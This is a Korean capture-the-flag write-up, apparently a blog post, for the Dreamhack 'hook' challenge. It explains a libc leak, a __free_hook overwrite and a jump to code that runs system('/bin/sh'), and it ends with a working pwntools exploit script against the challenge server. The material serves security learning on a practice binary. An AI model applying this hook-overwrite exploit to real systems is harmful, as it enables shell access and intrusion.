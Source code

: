 <img width="308" alt="image" src="https://github.com/user-attachments/assets/34457b09-c083-4bd5-b4cc-23d34a4386f6">

오히려, 세 원가젯 중 `[rsp + 0x30] == NULL`인 원가젯만 익스플로잇이 가능했고, 인자를 설정해주지 않은 `system` 함수나 `write`, `read` 등 라이브러리의 아무 함수나 Overwrite 해줘도 익스플로잇이 가능했다.

***이 부분은 일단 `free(ptr);`이 원래의 수행을 하지 않으면서 종료되지 않으면, 결국 `system("/bin/sh");`을 최종적으로 수행하기 때문인 것 같은데 왜 인자를 전달해주지 않아도 오류가 발생하지 않는지, 세 원가젯 중 하나만 가능한지는 질문을 올려본 후 다시 공부해보고 작성하겠다.***

사실 원래 정석 풀이는 바이너리에 존재하는 `system("/bin/sh")`을 실행하는 `instruction`의 주소를 `*(ptr + 1)`에 저장하는 것이었다.

이를 위해서는 gdb의 `disassemble main`을 통해 아래와 같이 해당 코드의 주소를 알 수 있다.

<img width="593" alt="image" src="https://github.com/user-attachments/assets/192801dc-32dd-46db-864c-dae5773dd807">

해당 스크린샷을 보면, `0x0000000000400a11 <+199>:   mov    edi,0x400aeb` 에서 바로 아래의 `system` 함수를 실행하기 전 인자를 설정해주는 것이 보인다.

`0x400aeb`는 `x/s`를 통해서 확인해보면 `"/bin/sh"` 문자열이 저장된 주소임을 알 수 있다.

<img width="233" alt="image" src="https://github.com/user-attachments/assets/abd9b56c-fc7f-40f8-9cc9-8dd5eb0a2369">

따라서, `*(ptr + 1)`에 `0x400a11`을 대입해주면 `__free_hook`이 호출될 경우 `0x400a11`로 이동해서 인자를 설정 후 `system` 함수를 실행하는 `main`의 루틴을 따라가게 될 것이다. 이렇게 익스플로잇이 가능한 이유는 아래의 두 이유 때문이다.

1. `0x400a11`로 이동하면 오류가 발생하기 전에는 `instruction`을 순차적으로 수행한다.

2. 해당 바이너리는 코드 영역의 주소를 랜덤화하는 `PIE`가 적용되어 있지 않기 때문에 `0x400a11`이라는 고정된 가상 주소를 사용할 수 있다.

만약 `PIE`가 적용되었다면 아래와 같이 고정된 가상 주소가 아닌 코드 영역의 베이스 주소에 더하는 오프셋으로 나타나기 때문에, 코드 영역의 베이스 주소를 알아야 할 것이다.

<img width="560" alt="image" src="https://github.com/user-attachments/assets/30e7952c-437c-460b-a0b5-71106c5a11a7">

<br>

## Exploit 

```py
from pwn import *

context.arch = "amd64"

p = remote("host3.dreamhack.games", 17398)
elf = ELF("./hook")
libc = ELF("./libc-2.23.so")

# [1] Leak libc base
p.recvuntil(b"stdout: ")
libc_stdout = int(p.recvline()[:-1], 16)
libc_base = libc_stdout - libc.symbols["_IO_2_1_stdout_"]

free_hook = libc_base + libc.symbols["__free_hook"]
sh = 0x400a11  # mov rdi, 0x400aeb : "/bin/sh" 의 주소

p.sendline(str(16).encode())
p.send(p64(free_hook) + p64(sh))

# libc_system = libc_base + libc.symbols["system"]
# read = libc_base + libc.symbols["read"]
# write = libc_base + libc.symbols["write"]

# og = libc_base + 0x4527A  # [rsp+0x30] == NULL : 이것만 실제 exploit이 됨
# og = libc_base + 0xf03a4  # [rsp+0x50] == NULL : 이게 조건을 만족하는데
# og = libc_base + 0xf1247 # [rsp+0x70] == NULL

# system, write, read 다 되는데 왜 첫번째 og만 될까?
# p.send(p64(free_hook) + p64(og))
# p.send(p64(free_hook) + p64(system))
```
